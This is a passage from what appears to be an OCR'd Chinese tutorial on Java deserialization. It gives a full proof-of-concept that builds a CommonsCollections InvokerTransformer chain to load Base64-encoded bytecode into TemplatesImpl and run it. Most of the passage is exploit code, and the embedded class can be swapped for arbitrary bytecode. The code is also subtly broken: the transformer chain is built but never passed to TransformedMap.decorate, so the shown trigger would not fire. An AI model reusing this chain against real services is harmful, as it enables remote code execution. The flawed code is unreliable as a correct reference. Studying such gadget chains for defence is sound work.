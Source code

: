 
只需要结合这两段POC，即可很容易地改造出⼀个执⾏任意字节码的CommonsCollections利⽤ 链：**只需要将第⼀个demo中InvokerTransformer执⾏的“⽅法”改 成 `TemplatesImpl::newTransformer()`** ，即为

    Transformer[] transformers = new Transformer[]{
     new ConstantTransformer(obj),
     new InvokerTransformer("newTransformer", null, null)
    };
    

完整POC如下:

    public class a {
        public static void setFieldValue(Object obj, String fieldName, Object Value) throws Exception {
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(obj, Value);
        }
    
        public static void main(String[] args) throws Exception {
    // source: bytecodes/HelloTemplateImpl.java
            byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgASCQATABQIABUKABYAFwcAGAcAGQEA" +
                    "CXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RP" +
                    "TTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0" +
                    "aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCm" +
                    "KExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29y" +
                    "Zy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2Fw" +
                    "YWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxp" +
                    "bml0PgEAAygpVgEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAb" +
                    "DAAcAB0BABNIZWxsbyBUZW1wbGF0ZXNJbXBsBwAeDAAfACABABJIZWxsb1RlbXBsYXRlc0ltcGwB" +
                    "AEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFj" +
                    "dFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5z" +
                    "bGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3Ry" +
                    "ZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5n" +
                    "OylWACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAIAAsA" +
                    "AAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAACgALAAAABAABAAwA" +
                    "AQAOAA8AAQAJAAAALQACAAEAAAANKrcAAbIAAhIDtgAEsQAAAAEACgAAAA4AAwAAAA0ABAAOAAwA" +
                    "DwABABAAAAACABE=");
            TemplatesImpl obj = new TemplatesImpl();
            setFieldValue(obj, "_bytecodes", new byte[][]{code});
            setFieldValue(obj, "_name", "HelloTemplatesImpl");
            setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
    
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(obj),
                    new InvokerTransformer("newTransformer", null, null)
            };
    
            Transformer chian = new ChainedTransformer(transformers);
    
            Map innerMap = new HashMap();
            Map outerMaP = TransformedMap.decorate(innerMap, null, null);
            outerMaP.put("test", "xxxx");
        }
    }
    